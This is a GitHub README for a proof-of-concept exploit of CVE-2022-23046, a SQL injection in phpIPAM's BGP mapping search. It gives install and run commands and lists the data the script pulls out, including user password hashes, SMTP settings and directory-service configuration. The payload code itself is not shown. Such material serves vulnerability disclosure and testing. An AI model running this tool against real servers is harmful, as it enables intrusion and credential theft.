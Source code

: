 # CVE-2022-23046
The original discovery and manual PoC is from [Fluidattacks](https://fluidattacks.com/advisories/mercury/):

PhpIPAM v1.4.4 allows an authenticated admin user to inject SQL sentences in the "subnet" parameter while searching a subnet via app/admin/routing/edit-bgp-mapping-search.php.

This PoC executes some easy SQLi to fetch info like:

- Basic Server Info
- SMTP Settings
- Other authentication method like AD/LDAP/Radius
- PHPIpam Users and hashes
- MySQL db Users
- Other schemas availables

Some of them are accessible through the backend but I added here just as an easy way to fetch all the information in a single query. Feel free to add/remove your own payloads

For more advanced stuff, create your own payloads (in res.payloads), use burpsuite or use sqlmap.

## Vuln App

```
docker-compose up -d
```

# Installation

```bash
git clone https://github.com/jcarabantes/CVE-2022-23046.git
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt

python CVE-2022-23046.py -h
```

# Quick usage
```bash

python CVE-2022-23046.py -h
  ___  _  _  ____     ___   ___  ___   ___      ___   ___   ___    __    _  
 / __)( \/ )( ___)___(__ \ / _ \(__ \ (__ \ ___(__ \ (__ ) / _ \  /. |  / ) 
( (__  \  /  )__)(___)/ _/( (_) )/ _/  / _/(___)/ _/  (_ \( (_) )(_  _)/ _ \
 \___)  \/  (____)   (____)\___/(____)(____)   (____)(___/ \___/   (_) \___/

                                     Vulnerability discovered by Oscar Uribe
                                                 PoC author: @javicarabantes
usage: CVE-2022-23046.py [-h] [-d] [-q] --url URL --user USER

optional arguments:
  -h, --help   show this help message and exit
  -d           Debug output
  -q           Do not print the banner
  --url URL    phpipam url: https://ipamserver:8081/
  --user USER  admin user


python CVE-2022-23046.py --url http://localhost:8888/ --user admin
```

![example](docs/example.png)


# Additional info
I've been testing this PoC in different phpipam versions 1.4.3, 1.4.4 and 1.5 which worked fine (not only < 1.4.5).
Checking at the phpipam github project I saw that the commit 4b764b9cb236d1a4a06fc8ad9a93b306b3f5c04d also affected version 1.5

Usefull file: https://github.com/phpipam/phpipam/blob/master/misc/CHANGELOG

Check if CHANGELOG is accessible and has the comment about this fix, otherwise the phpipam server may be vulnerable

> curl -sk https://phpipamserver/misc/CHANGELOG | grep "edit-bgp-mapping-search.php"
